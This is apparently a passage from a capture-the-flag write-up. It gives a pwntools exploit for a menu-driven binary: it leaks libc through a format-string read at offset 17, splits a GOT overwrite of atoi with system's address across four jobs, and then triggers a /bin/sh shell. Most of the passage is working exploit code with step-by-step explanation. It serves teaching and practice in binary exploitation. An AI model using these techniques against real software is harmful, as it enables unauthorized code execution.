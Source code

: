 Standard pwntools header.

```python
# leak libc
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'job: ',b'leak')
p.sendlineafter(b'Path: ',b'%17$p')
p.sendlineafter(b'> ',b'1')
p.recvuntil(b'leak ')
_ = p.recvuntil(b' ').split()[0]

libc.address = int(_,16) - 268 - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))
```

First we need to leak libc, as mentioned above in the Analysis section the leak is at format-string offset 17 in the stack.


```python
# set msb address for GOT overwrite
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'job: ',b'got')
p.sendlineafter(b'Path: ',b'%' + str(binary.got.atoi + 2).encode() + b'c%19$n')

# overwrite got
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'job: ',b'overwrite')
p.sendlineafter(b'Path: ',b'%' + str(libc.sym.system >> 16).encode() + b'c%103$hn')

# set lsb address for GOT overwrite
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'job: ',b'got')
p.sendlineafter(b'Path: ',b'%' + str(binary.got.atoi).encode() + b'c%19$n')

# overwrite got
p.sendlineafter(b'> ',b'3')
p.sendlineafter(b'job: ',b'overwrite')
p.sendlineafter(b'Path: ',b'%' + str(libc.sym.system & 0xffff).encode() + b'c%103$hn')
```

As mentioned in the Analysis section the `fgets` in `stripped_read` is limited to `0x14 - 1` bytes, so we'll have to write this as four different format-string exploits.

The first job will set the address of the most significant two bytes by writing that to offset 19, that is really pointing to 103, so it ends up in 103.  19 has the value of the address we want to write to (read up on how format-string exploits work if you're confused).

The second job then writes out the most significant bytes of `system` to the `atoi` GOT entry.

The 3rd/4th jobs are the same, however for the least significant bytes.

> At this point, nothing has been exploited.  All we've done is create the jobs, to trigger the attack we have to view the jobs.

```python
# trigger
p.sendlineafter(b'> ',b'1')
p.sendlineafter(b'> ',b'/bin/sh')
p.interactive()
```
